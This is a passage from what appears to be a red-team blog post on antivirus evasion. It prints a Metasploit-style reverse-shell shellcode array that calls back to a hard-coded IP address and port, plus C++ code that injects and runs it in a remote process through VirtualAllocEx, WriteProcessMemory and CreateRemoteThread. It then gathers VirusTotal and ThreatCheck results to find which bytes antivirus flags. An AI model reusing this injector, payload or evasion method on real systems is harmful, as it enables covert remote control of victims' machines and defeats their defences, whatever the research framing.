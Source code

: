 ```c++
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
        "\x49\x89\xe5\x49\xbc\x02\x00\x05\x39\x23\xaa\xf5\x3e\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


    memAddr = VirtualAllocEx(hProcess, NULL, dwSize,flAllocationType,flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";
    
    WriteProcessMemory(hProcess, memAddr, buf, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    return 0;
}
```
*The above code is able to be compiled with Visual Studio 2019*

The above code is our Stageless shellcode, it's fairly standard process injection techniques.

<img src="https://blog.spookysec.net/img/Pasted image 20220212213333.png">
https://www.virustotal.com/gui/file/1d42289fac501595b5e20e014f40a605e2332848531588734c3e93cb3062d2f8/detection

There was a total of 19/68 Anti-Virus vendors that flagged on this program. It's important to note that most flagged of the vendors flagged it as Generic.Exploit.Metasploit, this is a huge indicator of what the AV Vendors are developing their signatures on. It seems that a large number of AV vendors may be sharing signatures or are at least alerting on the same things. 

Interestingly enough, Microsoft Windows Defender detected this as malware; Which is great! Let's take a look at ThreatCheck to get some more info. After analysis has been completed we see that ThreatCheck identified ``D0 66 41 8B 0C 48 44 8B`` as bad bytes; looking in Visual Studio, we can see that this is actually a part of our shellcode generated by MSFVenom.

<img src="https://blog.spookysec.net/img/Pasted image 20220212214133.png">
*Analysis from ThreatCheck*
